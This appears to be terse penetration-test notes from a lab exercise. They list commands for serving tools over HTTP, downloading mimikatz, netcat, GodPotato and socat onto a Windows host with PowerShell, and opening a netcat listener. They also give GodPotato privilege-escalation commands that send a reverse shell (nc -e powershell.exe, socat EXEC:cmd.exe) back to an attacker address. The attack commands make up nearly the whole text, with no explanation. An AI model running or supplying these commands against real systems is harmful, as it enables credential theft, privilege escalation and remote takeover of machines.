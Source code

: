 launch the python web server
```
python -m http.server
```

download from web02 with powershell
```
cd C:\Tools; Invoke-WebRequest http://192.168.45.167:8080/x64/mimikatz.exe -OutFile mimikatz.exe; Invoke-WebRequest http://192.168.45.167:8080/x64/mimidrv.sys -OutFile mimidrv.sys; Invoke-WebRequest http://192.168.45.167:8080/x64/mimilib.dll -OutFile mimilib.dll; iwr http://192.168.45.167:8080/nc.exe -outfile nc.exe; iwr http://192.168.45.167:8080/godpotato.exe -outfile godpotato.exe
```

listen to revshell
```
nc -nlvp 5555
```

godpotato
```
.\godpotato.exe -cmd "C:\Tools\nc.exe -e powershell.exe 192.168.45.167 5555"
```

godpotato (socat.exe version)
```
wget https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.exe
```

```
iwr http://192.168.45.167:8080/socatx64.exe -outfile socat.exe
```

```
socat TCP4-LISTEN:4545,fork STDOUT
```

```
.\godpotato.exe -cmd "C:\Tools\socat.exe TCP4:192.168.45.167:4545 EXEC:'cmd.exe',pipes"
```